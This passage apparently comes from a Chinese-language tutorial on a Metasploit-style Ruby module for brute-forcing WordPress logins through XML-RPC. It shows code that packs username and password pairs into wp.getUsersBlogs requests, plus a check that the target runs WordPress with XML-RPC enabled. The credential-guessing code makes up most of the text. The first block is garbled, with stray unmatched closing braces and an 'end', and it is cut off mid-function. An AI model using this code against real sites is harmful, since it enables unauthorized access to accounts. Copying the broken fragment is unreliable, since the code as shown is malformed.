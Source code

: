 ```
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end 
```

+   检查目标是否在运行 WordPress

+   检查目标是否启用 RPC

```
 #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end 
```
